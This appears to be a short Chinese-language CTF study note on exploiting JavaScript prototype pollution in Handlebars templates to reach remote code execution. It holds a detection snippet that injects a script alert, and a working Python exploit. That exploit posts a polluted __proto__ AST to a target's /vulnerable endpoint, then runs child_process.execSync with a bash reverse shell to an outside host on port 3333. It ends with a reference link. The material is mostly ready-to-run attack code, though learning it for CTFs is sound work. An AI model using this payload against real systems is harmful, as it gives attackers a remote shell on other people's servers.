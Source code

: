 tags:: [[CTFWEB/JS/原型链污染]]

- # 原型链污染到RCE
	- 检测是否存在：
		- ```js
		  const Handlebars = require('handlebars');
		  
		  Object.prototype.pendingContent = `<script>alert(origin)</script>`
		  
		  const source = `Hello {{ msg }}`;
		  const template = Handlebars.compile(source);
		  
		  console.log(template({"msg": "posix"})); // <script>alert(origin)</script>Hello posix
		  ```
	- ```python
	  import requests
	  
	  TARGET_URL = 'http://p6.is:3000'
	  
	  # make pollution
	  requests.post(TARGET_URL + '/vulnerable', json = {
	      "__proto__.type": "Program",
	      "__proto__.body": [{
	          "type": "MustacheStatement",
	          "path": 0,
	          "params": [{
	              "type": "NumberLiteral",
	              "value": "process.mainModule.require('child_process').execSync(`bash -c 'bash -i >& /dev/tcp/p6.is/3333 0>&1'`)"
	          }],
	          "loc": {
	              "start": 0,
	              "end": 0
	          }
	      }]
	  })
	  
	  # execute
	  requests.get(TARGET_URL)
	  ```
	- [参考](https://po6ix.github.io/AST-Injection/#Example)